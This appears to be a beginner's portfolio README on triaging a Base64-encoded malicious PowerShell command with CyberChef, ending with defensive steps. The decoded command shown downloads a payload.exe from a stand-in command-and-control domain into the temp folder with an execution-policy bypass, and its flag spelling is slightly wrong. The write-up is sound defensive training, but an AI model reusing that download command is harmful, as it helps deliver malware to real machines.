



# Security Triage: Deobfuscating a Malicious PowerShell Command

## Project Overview
This project demonstrates how to analyze and decode a hidden malicious command using the CyberChef web utility. Acting as a Security Analyst, I took a scrambled text string captured from a system alert, ran it through a decoding pipeline, and uncovered the exact commands an attacker was trying to run on our network. 

## Skills Learned
* **Data Decoding**: Using CyberChef to translate encoded text back into plain English.
* **Incident Triage**: Extracting web links (Indicators of Compromise) used by attackers.
* **Understanding Evasion**: Analyzing how malware hides from basic antivirus filters.

## Step-by-Step Triage & Analysis

### 1. Analyzing the Scrambled Input
The project started with a long string of random characters. Attackers use this format (called Base64 encoding) to hide their text so that standard firewalls and email filters don't flag words like "download" or "malicious."

**Raw Scrambled String:**


### 2. Building the CyberChef Recipe
To read the message, I dragged the **"From Base64"** tool into the middle recipe column. This tool instantly runs the math required to unpack the hidden text layer.

**CyberChef Toolchain:**


### 3. Reviewing the Decoded Output
The output box instantly revealed a real-world **"Living off the Land"** attack technique. This means the attacker is abusing a legitimate, pre-installed Windows tool (`powershell.exe`) to perform malicious activity.

**Decoded Plain-Text Command:**
```text
powershell.exe -noprofile -executionbypass -command "Invoke-WebRequest -Uri 'http://malicious-c2-traffic-server.com' -OutFile '%TEMP%\payload.exe'"
```

**What the Attacker's Code Does:**
* `powershell.exe`: Opens the built-in Windows command tool.
* `-executionbypass`: Forces the script to run even if the computer's security policy tries to block it.
* `Invoke-WebRequest`: Instructs the computer to silently download a file from the internet.
* `http://malicious-c2-traffic-server.com`: The external server hosting the malware.
* `%TEMP%`: Drops the stolen/malicious file into a hidden temporary folder to avoid detection.

**Decoded Analysis Output:**


## Recommended Defense Actions
If this alert happened on a real corporate network, I would take the following steps:
1. Block the domain `malicious-c2-traffic-server.com` at the network firewall immediately.
2. Search our security logs to see if any other computers in the company have connected to that web address.

